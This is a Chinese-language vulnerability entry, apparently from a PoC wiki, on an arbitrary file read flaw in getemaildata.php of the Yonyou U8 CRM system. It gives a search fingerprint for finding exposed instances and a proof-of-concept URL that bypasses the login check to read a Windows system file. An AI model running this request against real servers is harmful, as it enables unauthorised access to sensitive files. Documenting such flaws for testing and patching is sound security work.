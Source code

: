 # 用友 U8 CRM客户关系管理系统 getemaildata.php 任意文件读取漏洞

## 漏洞描述

用友 U8 CRM客户关系管理系统 getemaildata.php 存在任意文件读取漏洞，攻击者通过漏洞可以获取到服务器中的敏感文件

## 漏洞影响

<a-checkbox checked>用友 U8 CRM客户关系管理系统</a-checkbox></br>

## 网络测绘

<a-checkbox checked>web.body="用友U8CRM"</a-checkbox></br>

## 漏洞复现

登陆页面

![img](/assets/PeiQi-Wiki/img/1680525831431-a143a41a-f89e-4132-913f-0f0e8858628c-20230812123820985.png)

验证POC

```plain
/ajax/getemaildata.php?DontCheckLogin=1&filePath=c:/windows/win.ini
```

![img](/assets/PeiQi-Wiki/img/1691568204155-1b46ce98-e317-4318-9fb3-f2bcad3b0988.png)